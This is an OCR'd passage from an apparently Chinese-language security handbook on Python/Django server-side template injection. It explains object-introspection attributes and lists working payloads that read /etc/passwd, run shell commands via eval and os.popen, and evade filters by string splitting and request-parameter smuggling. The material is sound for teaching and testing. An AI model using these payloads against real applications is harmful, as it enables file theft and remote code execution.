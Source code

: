 {{''.__class__.__mro__[-1].__subclasses__()}}

- Django
- 
{{ request }}

{% debug %}

{% load module %}

{% include "x.html" %}

{% extends "x.html" %}


---
3.10.4. 目标

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏 提权



---
3.10.5. 相关属性

3.10.5.1. __class__

python中的新式类（即显示继承object对象的类）都有一个属性 __class__ 用于获取当前实例对应的类，例如 "".__class__ 就可以获取到字符串实例对应的类

3.10.5.2. __mro__

python中类对象的 __mro__ 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

3.10.5.3. __globals__

保存了函数所有的所有全局变量，在利用中，可以使用 __init__ 获取对象的函数，并通过 __globals__ 获取 file os 等模块以进行下一步的利用

3.10.5.4. __subclasses__()

python的新式类都保留了它所有的子类的引用，__subclasses__() 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。  

因为python中的类都是继承object的，所以只要调用object类对象的 __subclasses__() 方法就可以获取想要的类的对象。


---
3.10.6. 常见Payload

- ().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()

- ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )


---
3.10.7. 绕过技巧

3.10.7.1. 字符串拼接

request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]
3.10.7.2. 使用参数绕过
params = {     
    'clas': '__class__',    
    'mr': '__mro__',     
 'subc': '__subclasses__' 
} 
data = {     
  "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}" 
} 
r = requests.post(url, params=params, data=data) 
print(r.text)